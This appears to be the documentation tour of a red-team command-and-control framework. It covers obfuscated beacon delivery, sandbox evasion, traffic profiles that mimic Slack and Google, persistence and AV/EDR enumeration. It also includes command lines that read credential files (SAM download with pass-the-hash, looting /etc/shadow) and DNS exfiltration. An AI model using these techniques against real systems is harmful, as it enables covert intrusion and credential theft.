<p align="center">
  
</p>

<h1 align="center">TrashPandaPaws C2 — Demo Tour</h1>

<p align="center">
  Comprehensive walkthrough of the Raccoon C2 team server — from beacon generation
  to post-exploitation, Malleable C2 profiles, and live agent management.
</p>

---

## Table of Contents

1. [Operator Dashboard](#1-operator-dashboard)
2. [Beacon Generator](#2-beacon-generator)
3. [Agent Interaction & Terminal](#3-agent-interaction--terminal)
4. [File Browser](#4-file-browser)
5. [Process Viewer & AV/EDR Detection](#5-process-viewer--avedr-detection)
6. [Network Analysis (Netstat)](#6-network-analysis-netstat)
7. [Pivot Map](#7-pivot-map)
8. [Malleable C2 Profile Editor](#8-malleable-c2-profile-editor)
9. [Profile Library](#9-profile-library)
10. [Burp Suite Import](#10-burp-suite-import)
11. [Beacon Config & Dynamic Reconfiguration](#11-beacon-config--dynamic-reconfiguration)
12. [Profile Verification](#12-profile-verification)
13. [Impacket & NetExec Integration](#13-impacket--netexec-integration)
14. [Responder & RelayKing](#14-responder--relayking)
15. [SMBLoot (Pure-Python SMB2 Browser)](#15-smbloot-pure-python-smb2-browser)
16. [Loot Vault](#16-loot-vault)
17. [Server Log & Notifications](#17-server-log--notifications)
18. [Full Attack Flow](#18-full-attack-flow)
19. [Command Reference](#19-command-reference)
20. [Screenshots Checklist](#20-screenshots-checklist)

---

## 1. Operator Dashboard

The main view after login. All connected agents are listed in the left sidebar with real-time status indicators, while the right side provides the command terminal and side panels.



**Header Bar:**
- Raccoon C2 logo with server status indicator (green dot = running)
- Quick-access buttons: Beacon Generator, Loot Vault, Server Log, Notifications, Settings

**Agent Sidebar (left):**
- Agent cards with color-coded status: green (online), yellow (stale), red (offline)
- Each card shows: agent name, `user@hostname`, architecture, last seen timestamp
- Auto-refreshes every 3 seconds

**Agent Header (when selected):**
- Agent name, architecture tag, OS tag
- `user@host` with PID and uptime
- Proxy status tag (green if proxy active)
- C2 Profile tag: purple if Malleable profile active, gray if default

**14-button Toolbar:**
| Button | Function |
|--------|----------|
| Files | File Browser panel |
| Upload | Upload file to agent |
| Download | Download file from agent |
| whoami | Current user identity |
| id | User/group IDs |
| sysinfo | OS and kernel info |
| procs | Process listing + AV/EDR detection |
| AV/EDR | Remote AV/EDR enumeration via SMB |
| netstat | Network connections |
| Beacon | Beacon config (sleep, persist, profile, kill) |
| Pivot Map | Interactive network topology |
| Impacket | Impacket tools dropdown (16 tools) |
| Loot | Loot Vault viewer |
| Agent Log | Per-agent event log |
| Help | Command reference |

---

## 2. Beacon Generator

Generate fully configured, multi-layer obfuscated beacon payloads with encryption, evasion, and C2 profile injection.



**Configuration Options:**
- **C2 URL**: Auto-populated callback URL (protocol + host + port)
- **Encryption Key**: AES-GCM 256-bit (auto-generated or custom, Base64-encoded)
- **Beacon Interval**: Check-in frequency in seconds
- **Jitter**: Randomization percentage (0-100%)
- **Obfuscation Layers**: Slider (1-6 layers of nested zlib + base64 encoding)
- **Delivery Method**: Inline (copy-paste) or GitHub Gist (auto-delete on first connect)

**Anti-Analysis Features (baked into beacon):**
- Sandbox detection (VM artifacts, debugger presence)
- Process name randomization
- Connection jitter with randomized sleep

**Pipeline Flow Diagram:**

The generator includes a collapsible visual pipeline showing how profiles integrate:




```mermaid
graph TD
    BG["🚀 Beacon Generator<br/>URL, key, interval, jitter, obfuscation"]
    PE["🛡 C2 Profile Editor<br/>Syntax highlighting, linter, tutorial"]
    TPL["📄 Template<br/>Azure / CDN preset"]
    BURP["🔍 Burp Import<br/>Paste raw HTTP"]
    MAN["✏ Manual Edit<br/>Write profile"]
    LINT["⚡ Lint & Validate<br/>Syntax, braces, transforms"]
    GEN["🎯 Generate Payload<br/>Multi-layer obfuscation"]
    INL["📋 Inline<br/>curl │ python3"]
    GIST["🔗 GitHub Gist<br/>Private, auto-delete"]

    BG --> PE
    PE --> TPL & BURP & MAN
    TPL & BURP & MAN --> LINT
    LINT --> GEN
    GEN --> INL & GIST

    style BG fill:#c44,stroke:#333,color:#fff
    style PE fill:#47a,stroke:#333,color:#fff
    style LINT fill:#fa0,stroke:#333,color:#000
    style GEN fill:#4a9,stroke:#333,color:#fff
    style INL fill:#4a9,stroke:#333,color:#fff
    style GIST fill:#4a9,stroke:#333,color:#fff
```

**Deobfuscation Chain Viewer:**

Shows the exact decode pipeline needed to reconstruct the beacon from the obfuscated payload, with platform-specific tabs for Linux, macOS, and Windows.

**GitHub Gist Delivery:**



- Creates a private Gist via `gh` CLI
- One-liner curl command for target deployment
- Auto-deletes the Gist when the beacon first connects



---

## 3. Agent Interaction & Terminal

The main terminal area provides a full interactive command interface to the selected agent.



**Terminal Features:**
- Color-coded output: directories (blue), permissions, IP addresses (cyan), privileged users (red/bold), errors (red), connection states
- Command history with arrow key navigation (up/down)
- Tab completion with autocomplete dropdown (commands + path suggestions)
- Ghost text hints showing command syntax
- Pending task animations while waiting for results
- Auto-polling results every 2.5 seconds

**Quick Info Buttons:**

One-click reconnaissance:

```
$ whoami
hackepeter

$ id
uid=0(root) gid=0(root) groups=0(root)

$ sysinfo
Linux hackepeter 6.1.0-rpi7-rpi-v8 #1 SMP PREEMPT aarch64 GNU/Linux
```

---

## 4. File Browser

Full-featured remote file browser with tree view navigation, file operations, and drag-and-drop upload.



**Layout:**
- **Tree View** (left): Collapsible directory tree with expand/collapse icons
- **Directory Listing** (right): Files and folders with metadata columns

**File Details (per entry):**
- File name with type-based color-coded badges
- Owner and group
- Unix permissions string (`-rwxr-xr-x`)
- Last modified timestamp
- File size (human-readable)
- File type detection: `code`, `text`, `image`, `archive`, `binary`, `cert`, `database`

**File Operations:**
| Action | Description |
|--------|-------------|
| Navigate | Click folder to browse into it |
| View | View file contents inline (via `cat`) |
| Download | Download file from agent to C2 server |
| Loot | Flag file for exfiltration |
| Upload | Drag-and-drop or button upload to current directory |

**Upload:**
- Click "Upload" button or drag files onto the drop zone
- Prompted for remote path on the target
- File transferred as base64-encoded task data

---

## 5. Process Viewer & AV/EDR Detection

### Local Process Viewer (`procs` button)

Lists all running processes on the agent with automatic AV/EDR product detection.



**Detection Database (30+ products):**

| Category | Products Detected |
|----------|-------------------|
| **EDR** | CrowdStrike Falcon, SentinelOne, Carbon Black, Cortex XDR, Elastic EDR, Cybereason, Cynet, HarfangLab |
| **AV** | Windows Defender, Kaspersky, Bitdefender, Sophos, McAfee/Trellix, ESET, Avast, AVG, F-Secure/WithSecure, Symantec SEP, G DATA, Malwarebytes, Panda/WatchGuard, Trend Micro, Acronis |
| **SIEM/Audit** | Splunk, Sysmon, osquery, Wazuh |
| **Other** | FortiClient, FortiEDR, Check Point, CylancE, Tanium, Rapid7, Qualys, Ivanti |

- Detected products are highlighted with severity badges: **HIGH** (red), **MED** (yellow), **LOW** (green)
- The beacon's own PID is highlighted for easy identification
- Results from `ps aux` (Linux/macOS) or `tasklist /v` (Windows) are parsed and cross-referenced

### Remote AV/EDR Enumeration (`AV/EDR` button)

Server-side remote enumeration via Impacket SMB — no beacon interaction needed.



**Three detection methods:**
1. **LsarLookupNames** — Unprivileged, queries LSA for known AV service accounts
2. **Named Pipe Enumeration** — Connects to IPC$ and checks for known AV pipes
3. **Service Control Manager** — Queries SCM for AV/EDR service names (requires admin)

**Input fields:**
- Target IP
- Domain, Username, Password (or NTLM hash)
- Pass-the-Hash toggle

---

## 6. Network Analysis (Netstat)

Detailed network connection analysis with service identification and attack surface assessment.



**Summary Stats:**
- Total connections, listening ports, established connections, unique remote hosts

**Service Identification:**

60+ port-to-service mappings including:
- Standard services: SSH (22), HTTP (80/443), DNS (53), SMB (445), RDP (3389)
- Database services: MySQL (3306), PostgreSQL (5432), MSSQL (1433), MongoDB (27017), Redis (6379)
- Enterprise: LDAP (389/636), Kerberos (88), WinRM (5985/5986)
- Monitoring: Prometheus (9090), Grafana (3000), Elasticsearch (9200)

**Suspicious Port Detection:**
- Flags uncommon high ports, known backdoor ports, and unusual listeners
- Highlights connections to unexpected external hosts

**Attack Surface Assessment:**
- Identifies pivot opportunities (internal listeners on high-value ports)
- Flags potential lateral movement targets

---

## 7. Pivot Map

Interactive HTML5 Canvas network topology visualization.



**Node Types:**
- **C2 Server** (red): Central node, always visible
- **Beacon Nodes** (green): Connected agents with hostname labels
- **Discovered Hosts** (blue): Hosts found via `netscan` or `arptable`

**Subnet Grouping:**
- Hosts are grouped into subnet boxes (`10.0.1.0/24`, `192.168.1.0/24`, etc.)
- Subnet labels with host count

**Interactive Controls:**
- Click and drag nodes to rearrange
- Scroll to zoom in/out
- Hover for tooltips with: IP, ports, banners, OS guess, vendor (from OUI)
- Animated packet flow along connections (C2 ↔ beacon)

**Data Sources:**
- Agent registration (IP, hostname)
- `netscan` results (live hosts, open ports, banners)
- `arptable` results (MAC vendor, neighbor info)

**Legend:**
- Color-coded by node type with connection status indicators

---

## 8. Malleable C2 Profile Editor

Full-featured editor for creating and managing Malleable C2 profiles that make beacon traffic mimic legitimate services.



**Editor Features:**
- **Syntax Highlighting**: Keywords (`set`, `http-get`, `http-post`, `client`, `server`, `metadata`), strings, comments
- **Line Numbers**: Synced scrolling between line numbers and code
- **Real-Time Linting**: Validates structure, required blocks, field values — returns errors, warnings, info

**Top Bar Actions:**
| Button | Function |
|--------|----------|
| Lint | Validate profile syntax and structure |
| Save & Apply | Parse profile and activate server-side |
| Push to Agents | Push active profile to all/selected beacons |
| Import from Burp | Generate profile from raw HTTP traffic |
| Library | Open preset profile library |
| Template | Load annotated starter template |
| Clear | Reset editor |

**Tutorial Sidebar (6 sections):**
1. Overview — What Malleable C2 profiles do
2. Global Options — `sleeptime`, `jitter`, `useragent`, `host_stage`
3. http-get / http-post — URI sets, client/server blocks
4. Data Transforms — `base64`, `base64url`, `netbios`, `mask`, `prepend`, `append`
5. https-certificate — CN, O, C, validity for TLS mimicry
6. Advanced — `stage`, `process-inject`, `post-ex` blocks
7. Example profiles with copy-paste

**Profile Parsing Engine:**
- Extracts: globals (sleeptime, jitter, useragent), http-get/http-post blocks
- Per block: URIs, client headers, params, metadata/id/output sub-blocks
- Each sub-block: transform chain + terminator (header, parameter, print)

### Example: Slack API Profile

```
set sleeptime "30000";
set jitter    "40";
set useragent "Slackbot 1.0 (+https://api.slack.com/robots)";

https-certificate {
    set CN   "hooks.slack.com";
    set O    "Slack Technologies";
}

http-get {
    set uri "/api/conversations.history /api/channels.info /api/users.list";

    client {
        header "Accept" "application/json";
        header "Accept-Charset" "utf-8";

        metadata {
            base64url;
            prepend "xoxb-";
            header "Authorization";
        }
    }

    server {
        header "Content-Type" "application/json; charset=utf-8";
        header "Strict-Transport-Security" "max-age=31536000";

        output {
            mask;
            base64;
            prepend "{\"ok\":true,\"messages\":[{\"text\":\"";
            append "\"}]}";
            print;
        }
    }
}

http-post {
    set uri "/api/chat.postMessage /api/files.upload";

    client {
        header "Content-Type" "application/json; charset=utf-8";

        id {
            base64url;
            parameter "channel";
        }

        output {
            mask;
            base64;
            print;
        }
    }
}
```

---

## 9. Profile Library

Curated collection of 8 Malleable C2 profiles mimicking legitimate SaaS and CDN traffic.



| Profile | Mimics | User-Agent | GET URIs | POST URIs | Category |
|---------|--------|------------|----------|-----------|----------|
| **Amazon CDN** | CloudFront edge | `Amazon CloudFront` | `/cdn/dist/`, `/assets/` | `/cdn/upload/` | CDN |
| **Slack Webhook** | Slack API | `Slackbot 1.0` | `/api/conversations.history` | `/api/chat.postMessage` | SaaS |
| **Google APIs** | Google OAuth | `google-api-python-client/2.0` | `/oauth2/v4/token` | `/upload/drive/v3/files` | API |
| **OneDrive Sync** | Microsoft sync | `Microsoft OneDrive` | `/v1.0/me/drive/root` | `/v1.0/me/drive/items` | SaaS |
| **jQuery CDN** | Static assets | `Mozilla/5.0 ...` | `/jquery-3.6.0.min.js` | `/ajax/libs/` | CDN |
| **GitHub API** | GitHub REST v3 | `GitHub-Hookshot/` | `/api/v3/repos/` | `/api/v3/gists` | API |
| **Outlook/O365** | Office 365 | `Microsoft Office/16.0` | `/api/v2.0/me/messages` | `/api/v2.0/me/sendmail` | SaaS |
| **Cloudflare Workers** | Edge compute | `Cloudflare-Workers` | `/cdn-cgi/trace` | `/client/v4/zones/` | CDN |

Each profile includes:
- Realistic HTTP headers matching the mimicked service
- Proper metadata encoding chains (base64url with service-specific prefixes)
- Response wrapping that matches the service's JSON schema
- TLS certificate parameters for SNI mimicry

**Search & Filter:**
- Real-time search by profile name
- Category tags: CDN (blue), SaaS (purple), API (green), Web (orange)

---

## 10. Burp Suite Import

Generate a Malleable C2 profile directly from captured HTTP traffic in Burp Suite.



**Workflow:**
1. Capture a legitimate HTTP request/response in Burp Suite
2. Copy the raw HTTP request and response
3. Paste into the import dialog's two text areas
4. Select where to store beacon metadata, ID, and output:
   - Header (blend into existing header value)
   - URI Parameter
   - Body
5. Choose encoding: `base64`, `base64url`, `netbios`, `netbiosu`
6. Click Generate — the profile is created and loaded into the editor

**Use Case:**
> You observe that the target network allows traffic to `updates.vendor.com`. Capture a legitimate request in Burp, import it, and your beacon traffic becomes indistinguishable from real update checks.

---

## 11. Beacon Config & Dynamic Reconfiguration

Per-agent configuration panel for timing, persistence, C2 profile management, and beacon lifecycle.



### Persistence

7 persistence methods with auto-detection based on target OS:

| Method | OS | Mechanism |
|--------|----|-----------|
| `auto` | Any | Auto-detect best method for OS |
| `registry` | Windows | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` |
| `startup` | Windows | VBScript in Startup folder |
| `schtask` | Windows | Scheduled task at logon |
| `crontab` | Linux/macOS | Crontab entry (`@reboot`) |
| `bashrc` | Linux | Append to `~/.bashrc` |
| `systemd` | Linux | User-level systemd service |

- **Install**: Select method, click Install
- **Remove**: Click Remove to clean up persistence artifacts

### C2 Profile Section

Two information blocks:

**Agent Profile (from beacon telemetry):**

Purple-bordered card showing what the beacon is actively using:
- User-Agent string
- Beacon interval and jitter percentage
- GET URIs (blue tags) the beacon rotates through
- POST URIs (orange tags) for result delivery
- GET/POST custom headers (green tags)
- Metadata encoding chain (e.g., `base64url prepend="xoxb-"`)
- Beacon ID encoding (e.g., `base64url → parameter channel`)

**Last Beacon HTTP Request (from server-side capture):**

Blue-bordered card showing the actual HTTP request received from this beacon:
- Request path (e.g., `/api/v1/api/users.list`)
- User-Agent header
- Timestamp
- All custom headers
- Green confirmation: *"Profile is actively applied — beacon is using C2 profile URI ... instead of default paths"*

### Dynamic Reconfiguration

Push a new profile to running beacons without redeployment:

1. Select a profile from the library dropdown or open the editor
2. **Push to Agent** — reconfigure this specific beacon
3. **Push to All** — fleet-wide reconfiguration (with confirmation)
4. Beacon receives `reconfig` command on next check-in
5. Beacon immediately switches: URIs, headers, user-agent, timing
6. Next telemetry confirms the new profile is active

### Kill Agent

Red button to terminate the beacon process on the target. Sends a `kill` command that:
- Removes any installed persistence
- Cleans up artifacts
- Terminates the beacon process

---

## 12. Profile Verification

The C2 server captures every beacon HTTP request server-side. This provides proof that the Malleable C2 profile is actively applied — no Wireshark or TLS decryption needed.

### Without Profile (default random evasion)

```
Path:        /beacon.js?_t=1722081234&sid=84721
User-Agent:  Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Headers:     Accept: application/json, text/plain, */*
             X-Requested-With: XMLHttpRequest
```

### With Slack Profile Active

```
Path:        /api/v1/api/users.list
User-Agent:  Slackbot 1.0 (+https://api.slack.com/robots)
Headers:     Accept: application/json
             Accept-Charset: utf-8
             Accept-Encoding: identity

 ✔ Profile is actively applied — beacon is using C2 profile URI
   /api/v1/api/users.list instead of default paths
```



### How It Works


```mermaid
sequenceDiagram
    participant B as Beacon
    participant C2 as C2 Server

    B->>C2: POST /api/conversations.history<br/>UA: Slackbot 1.0<br/>Auth: xoxb-[metadata]
    Note right of C2: Captures path, UA, headers
    Note right of C2: Stores as _last_request
    Note right of C2: Compares with profile URIs
    Note right of C2: Shows ✔ or ⚠ in GUI
    C2-->>B: {"ok":true,"messages":[...]}
```

---

## 13. Impacket & NetExec Integration

Server-side tool execution — these tools run on the C2 server, not on the beacon.

### Impacket Tools (16 tools)



| Tool | Purpose |
|------|---------|
| **PsExec** | Remote command execution via SMB service |
| **WMIExec** | Remote execution via WMI |
| **SMBExec** | Remote execution via SMB shares |
| **AtExec** | Remote execution via Task Scheduler |
| **DcomExec** | Remote execution via DCOM |
| **SecretsDump** | Dump SAM, LSA secrets, cached creds, NTDS.dit |
| **Lsassy** | Extract credentials from LSASS memory |
| **SAMRDump** | Enumerate users via SAMR |
| **LookupSID** | Brute-force SID lookup |
| **Reg.py** | Remote registry operations |
| **GetADUsers** | Enumerate Active Directory users |
| **GetUserSPNs** | Kerberoasting — request TGS for SPNs |
| **GetNPUsers** | AS-REP Roasting — find users without preauth |
| **NTLMRelayx** | NTLM relay attack |
| **SMBServer** | Start SMB share for file transfer |
| **Ticketer** | Forge Kerberos tickets (Golden/Silver) |
| **Custom** | Run any Impacket command |

Each tool prompts for: target IP, domain, username, password/hash.

### NetExec (NXC) Scans

**Subnet Discovery:**
- SMB scan — find Windows hosts
- RDP scan — find RDP-enabled hosts
- WinRM scan — find WinRM-enabled hosts
- SSH scan — find SSH servers
- MSSQL scan — find database servers

**Per-Host Enumeration:**
- Shares — list SMB shares with permissions
- Users — enumerate local users
- Sessions — list active sessions
- Password Policy — dump domain password policy
- Groups — enumerate local/domain groups
- LDAP Users — enumerate via LDAP

---

## 14. Responder & RelayKing

### Responder (LLMNR/NBT-NS/mDNS Poisoner)

- **Interface**: Network interface to poison on
- **Mode**: Analyze (passive, observe only) or Poison (active, capture hashes)
- **Options**: WPAD proxy, Force WPAD auth, Verbose mode
- Captures NTLMv1/v2 hashes for offline cracking

### RelayKing (NTLM Relay Audit)

- **Target/DC IP**: Target host and domain controller
- **Protocols**: SMB, LDAP, LDAPS, HTTP, HTTPS, MSSQL (checkbox selection)
- **Options**: Audit mode, port scan, NTLMv1 downgrade, generate relay list, coerce all
- **Threads**: Concurrent connection count
- Identifies relay opportunities across the network

---

## 15. SMBLoot (Pure-Python SMB2 Browser)

Browse, read, and download files from remote SMB shares — **directly from the beacon**, without loading impacket or any other external package. The entire SMB2 protocol stack (negotiate, NTLM auth, tree connect, create, read, query directory) is implemented in pure Python stdlib.


### Why?

Traditional tools like `smbclient.py` or `impacket` require additional packages on the beacon host. In restricted environments (no pip, no outbound downloads, minimal Python install), this is a problem. SMBLoot solves this by implementing SMB2 with only `socket`, `struct`, and `hashlib`.

### Beacon Usage (C2 Terminal)

```
smbloot <server> <user> <pass_or_hash> [domain] <action> [share] [path]
```

**Actions:**

| Action | Description |
|--------|-------------|
| `shares` | List all available shares on the target |
| `ls <share> [path]` | List directory contents |
| `cat <share> <path>` | Read file content (text preview, max 64KB) |
| `get <share> <path>` | Download file (returned as base64 to C2) |
| `tree <share> [path]` | Recursive directory listing (max 3 levels) |

**Examples:**

```bash
# List shares
smbloot 10.0.1.5 Administrator P@ssw0rd shares

# Browse Users share
smbloot 10.0.1.5 Administrator P@ssw0rd ls Users

# Read a file
smbloot 10.0.1.5 Administrator P@ssw0rd cat SYSVOL corp.local/Policies/GPT.INI

# Download a file
smbloot 10.0.1.5 Administrator P@ssw0rd get C$ Windows\System32\config\SAM

# Recursive tree of SYSVOL
smbloot 10.0.1.5 Administrator P@ssw0rd . tree SYSVOL corp.local

# Pass-the-Hash (LM:NT format)
smbloot 10.0.1.5 Administrator aad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 shares

# NT hash only
smbloot 10.0.1.5 Administrator 31d6cfe0d16ae931b73c59d7e0c089c0 CORP shares
```

### Standalone CLI Usage

SMBLoot is also available as a standalone terminal tool (no C2 connection needed):

```bash
python3 smbloot.py <server> <user> <pass_or_hash> [options] <action> [args]
```

**Options:**

| Flag | Description |
|------|-------------|
| `-d`, `--domain` | Domain name (default: `.`) |
| `-p`, `--port` | SMB port (default: 445) |
| `--depth` | Tree recursion depth (default: 3) |

**CLI Examples:**

```bash
# List shares
python3 smbloot.py 10.0.1.5 admin P@ssw0rd shares

# Browse with domain
python3 smbloot.py 10.0.1.5 admin P@ssw0rd -d CORP ls C$ Users\\Public

# Download file to local disk
python3 smbloot.py 10.0.1.5 admin P@ssw0rd get C$ Windows\\win.ini ./win.ini

# Deep tree scan
python3 smbloot.py 10.0.1.5 admin P@ssw0rd --depth 5 tree SYSVOL
```

### GUI Integration

In the Impacket tools panel, a dedicated **"SMBLoot"** section provides one-click access:

- **List Shares** — enumerate all accessible shares
- **Browse Share (ls)** — directory listing with share/path inputs
- **Tree (recursive)** — recursive traversal
- **Read File (cat)** — preview file content in the terminal
- **Download File (get)** — download and store in Loot Vault

The GUI reuses the target/user/pass fields from the Impacket panel, plus two additional fields for share name and path.

### Technical Details

| Component | Implementation |
|-----------|---------------|
| SMB2 Negotiate | Dialect 2.0.2 / 2.1 |
| Authentication | NTLMv2 (SPNEGO wrapped) |
| Pass-the-Hash | Direct NT hash injection |
| Share Enumeration | SRVSVC `NetShareEnumAll` via IPC$ named pipe |
| Directory Listing | `QueryDirectory` (FileBothDirectoryInformation) |
| File Read | SMB2 Read with 64KB chunking |
| Dependencies | **None** — stdlib only (`socket`, `struct`, `hashlib`, `hmac`) |

### Limitations

- No SMB signing (works against most targets with signing not required)
- No SMB3 encryption (targets requiring encryption will reject the connection)
- Maximum file download size: 10MB per file
- Tree recursion capped at 2000 entries to prevent timeout

---

## 16. Loot Vault

Centralized storage for all exfiltrated files across all agents.



**Features:**
- Lists all downloads and loot operations from every agent
- Files stored in the server's data directory
- Download button for each file
- File metadata: agent source, timestamp, size, original path

**Exfiltration Methods:**
- `download <path>` — Download single file via HTTPS
- `loot <dir>` — Recursively zip and exfiltrate entire directory
- `exfil <path>` — Exfiltrate via DNS channel (for restricted networks)

---

## 17. Server Log & Notifications

### Server Log (right-side drawer)



Filterable event log with category buttons:

| Category | Events |
|----------|--------|
| **All** | Everything |
| **Register** | New agent registrations |
| **Reconnect** | Returning agents |
| **Task** | Tasks queued by operator |
| **Dispatch** | Tasks sent to agents |
| **Result** | Task results received |
| **Download** | File downloads completed |
| **Startup** | Server start events |

Auto-polls every 5 seconds.

### Notifications

- Bell icon in header with unread count badge
- Real-time toasts for: agent connect/disconnect/reconnect, task completion, tool results, errors
- Notification panel dropdown with type, timestamp, message
- Clear all button

### Server Settings

- **Network**: Listen address, port, SSL status
- **Security**: Encryption key (reveal/copy), operator token (reveal/copy)
- **Storage**: Data directory path
- **Statistics**: Uptime, online/total agents, total tasks dispatched

---

## 18. Full Attack Flow


```mermaid
sequenceDiagram
    participant Op as Operator
    participant C2 as C2 Server
    participant B as Beacon
    participant T as Target Network

    Note over Op,C2: Phase 1 — Setup
    Op->>C2: Create Malleable C2 Profile (Slack)
    Op->>C2: Save & Apply Profile
    Op->>C2: Generate Beacon (profile baked in)

    Note over C2,B: Phase 2 — Initial Access
    C2-->>B: Beacon deployed on target
    B->>C2: POST /api/conversations.history<br/>UA: Slackbot 1.0<br/>Auth: xoxb-[metadata]
    C2-->>B: {"ok":true,"messages":[{"text":"[tasking]"}]}

    Note over Op,B: Phase 3 — Reconnaissance
    Op->>C2: whoami, sysinfo, procs
    C2-->>B: Queue tasks
    B->>C2: Results (uid=0, Linux 6.1, no EDR)
    Op->>C2: netscan 10.0.1.0/24
    C2-->>B: Queue netscan
    B->>C2: 10.0.1.5:445, 10.0.1.10:3389, 10.0.1.20:22
    Note over Op: Pivot Map updates automatically

    Note over Op,T: Phase 4 — Lateral Movement
    Op->>C2: Impacket SecretsDump → 10.0.1.5
    C2->>T: SMB + DCE/RPC (server-side)
    T-->>C2: SAM hashes, cached creds
    Op->>C2: Impacket PsExec → 10.0.1.10
    C2->>T: Service creation + shell

    Note over Op,B: Phase 5 — Dynamic Reconfiguration
    Op->>C2: Switch profile → Google APIs
    Op->>C2: Push to All Agents
    C2-->>B: reconfig command
    B->>C2: POST /oauth2/v4/token<br/>UA: google-api-python-client/2.0
    Note over B: Beacon now mimics Google traffic

    Note over Op,B: Phase 6 — Exfiltration
    Op->>C2: loot /etc/shadow, download /tmp/dump.zip
    B->>C2: POST /api/chat.postMessage<br/>[encrypted loot data]
    Note over Op: Files appear in Loot Vault
```

---

## 19. Command Reference

### File Operations

| Command | Arguments | Description |
|---------|-----------|-------------|
| `ls` | `<path>` | List directory contents |
| `cat` | `<path>` | Read file contents |
| `pwd` | | Print working directory |
| `cd` | `<path>` | Change directory |
| `cp` | `<src> <dst>` | Copy file |
| `mv` | `<src> <dst>` | Move or rename file |
| `rm` | `<path>` | Remove file or directory |
| `mkdir` | `<path>` | Create directory |
| `chmod` | `<mode> <file>` | Change file permissions |
| `write` | `<path>` | Write text content to file |
| `upload` | `<path>` | Upload file from operator to agent |
| `download` | `<path>` | Download file from agent to C2 |

### Execution

| Command | Arguments | Description |
|---------|-----------|-------------|
| `shell` | `<cmd>` | Execute shell command |

### Reconnaissance

| Command | Arguments | Description |
|---------|-----------|-------------|
| `netscan` | `[subnet]` | Scan /24 subnet: live hosts, open ports, banners |
| `arptable` | | ARP neighbor table with vendor/OS/port info |
| `proxyinfo` | | Show proxy configuration |
| `avenum` | | Enumerate local AV/EDR/SIEM products |

### SMBLoot (Remote Share Access)

| Command | Arguments | Description |
|---------|-----------|-------------|
| `smbloot` | `<server> <user> <pass/hash> [domain] shares` | List available SMB shares |
| `smbloot` | `<server> <user> <pass/hash> [domain] ls <share> [path]` | List directory on share |
| `smbloot` | `<server> <user> <pass/hash> [domain] cat <share> <path>` | Read remote file as text |
| `smbloot` | `<server> <user> <pass/hash> [domain] get <share> <path>` | Download remote file |
| `smbloot` | `<server> <user> <pass/hash> [domain] tree <share> [path]` | Recursive directory listing |

### Exfiltration

| Command | Arguments | Description |
|---------|-----------|-------------|
| `loot` | `<path>` | Zip and exfiltrate directory recursively |
| `exfil` | `<path>` | Exfiltrate file via DNS channel |

### Beacon Control

| Command | Arguments | Description |
|---------|-----------|-------------|
| `sleep` | `<sec> <jitter%>` | Set beacon interval and jitter |
| `persist` | `<method>` | Install persistence (auto/registry/startup/schtask/crontab/bashrc/systemd) |
| `unpersist` | `<method>` | Remove persistence mechanism |
| `kill` | | Terminate beacon and clean up |

### Internal (not user-facing)

| Command | Description |
|---------|-------------|
| `reconfig` | Push new C2 profile config (triggered via GUI) |
| `lsjson` | JSON directory listing (used by File Browser) |

---

## 20. Screenshots Checklist

> **To complete this demo**, take the following screenshots and save them in `docs/screenshots/`:

| # | File | What to capture |
|---|------|-----------------|
| 1 | `01_dashboard.png` | Main dashboard with 1+ online agents, sidebar visible |
| 2 | `02_beacon_generator.png` | Beacon generator dialog with inline payload |
| 2b | `02b_beacon_gist.png` | Beacon generator with GitHub Gist delivery |
| 2c | `02c_gist_payload.png` | Raw Gist payload on GitHub |
| 3 | `03_pipeline_flow.png` | Expanded pipeline flow diagram |
| 4 | `04_terminal.png` | Terminal with command output (e.g. `ls` or `shell` result) |
| 5 | `05_file_browser.png` | File browser with tree view + directory listing |
| 6 | `06_procs.png` | Process viewer with AV/EDR detection badges |
| 7 | `07_avedr.png` | Remote AV/EDR enumeration dialog |
| 8 | `08_netstat.png` | Netstat panel with connection table |
| 9 | `09_pivot_map.png` | Pivot map with C2 + beacon + discovered hosts |
| 10 | `10_profile_editor.png` | C2 Profile Editor with Slack profile loaded |
| 11 | `11_profile_library.png` | Profile library grid with search |
| 12 | `12_burp_import.png` | Burp Suite import dialog |
| 13 | `13_beacon_config.png` | Beacon Config panel (persistence + C2 profile) |
| 14 | `14_profile_verification.png` | "Last Beacon HTTP Request" with green confirmation |
| 15 | `15_impacket.png` | Impacket tools dropdown menu |
| 16 | `16_nxc.png` | NetExec scans dropdown menu |
| 17 | `17_responder.png` | Responder dialog |
| 18 | `18_relayking.png` | RelayKing NTLM relay dialog |
| 19 | `19_loot_vault.png` | Loot Vault with downloaded files |
| 20 | `20_smbloot.png` | SMBLoot panel with share listing or directory browse |
| 21 | `21_server_log.png` | Server log drawer with category filters |
